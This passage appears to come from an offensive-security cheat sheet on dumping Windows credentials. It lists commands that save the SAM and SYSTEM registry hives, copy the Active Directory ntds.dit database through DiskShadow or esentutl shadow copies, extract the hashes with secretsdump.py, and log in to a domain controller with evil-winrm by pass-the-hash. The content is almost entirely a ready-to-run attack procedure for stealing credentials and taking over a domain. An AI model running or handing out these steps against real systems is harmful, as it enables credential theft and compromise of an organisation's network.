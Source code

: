 - Fix: copy via **VSS (DiskShadow)** or `esentutl /vss` to get a **consistent** database file.
    

---

## Minimal cheat‑sheet (just commands)

### A) Local SAM (member server)

```cmd
reg save HKLM\SAM C:\temp\SAM.save
reg save HKLM\SYSTEM C:\temp\SYSTEM.save
```

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
```

### B) Domain NTDS (on DC) via DiskShadow (CRLF line endings required)

**vss.dsh**

```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

**Run & copy:**

```cmd
diskshadow /s C:\path\to\vss.dsh
copy Z:\Windows\NTDS\ntds.dit C:\temp\ntds.dit
reg save HKLM\SYSTEM C:\temp\SYSTEM.save
```

**Dump:**

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM.save LOCAL
```

**PTH:**

```bash
evil-winrm -i <DC_IP> -u Administrator -H <DOMAIN_ADMIN_NTLM>
```

### C) If DiskShadow is flaky → ESENT fallback

```cmd
esentutl /y C:\Windows\NTDS\ntds.dit /vss /d C:\temp\ntds.dit
reg save HKLM\SYSTEM C:\temp\SYSTEM.save
```

---
